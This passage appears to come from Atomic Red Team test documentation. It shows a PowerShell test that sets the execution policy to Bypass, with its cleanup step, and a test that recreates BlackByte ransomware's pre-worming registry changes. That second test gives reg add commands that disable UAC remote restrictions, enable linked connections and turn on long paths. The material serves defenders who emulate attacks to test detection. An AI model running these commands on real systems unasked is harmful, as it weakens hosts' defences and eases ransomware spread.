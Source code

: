 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| default_execution_policy | Specify the default poweshell execution policy | string | Default|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine
```

#### Cleanup Commands:
```powershell
try { Set-ExecutionPolicy -ExecutionPolicy #{default_execution_policy} -Scope LocalMachine -Force } catch {}
```





<br/>
<br/>

## Atomic Test #7 - BlackByte Ransomware Registry Changes - CMD
This task recreates the steps taken by BlackByte ransomware before it worms to other machines.  See "Preparing to Worm" section: https://redcanary.com/blog/blackbyte-ransomware/
The steps are as follows:
<ol>
    <li>1. Elevate Local Privilege by disabling UAC Remote Restrictions</li>
    <li>2. Enable OS to share network connections between different privilege levels</li>
    <li>3. Enable long path values for file paths, names, and namespaces to ensure encryption of all file names and paths</li>
</ol>
The registry keys and their respective values will be created upon successful execution.

**Supported Platforms:** Windows


**auto_generated_guid:** 4f4e2f9f-6209-4fcf-9b15-3b7455706f5b






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
cmd.exe /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
cmd.exe /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLinkedConnections /t REG_DWORD /d 1 /f
cmd.exe /c reg add HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v LongPathsEnabled /t REG_DWORD /d 1 /f
```
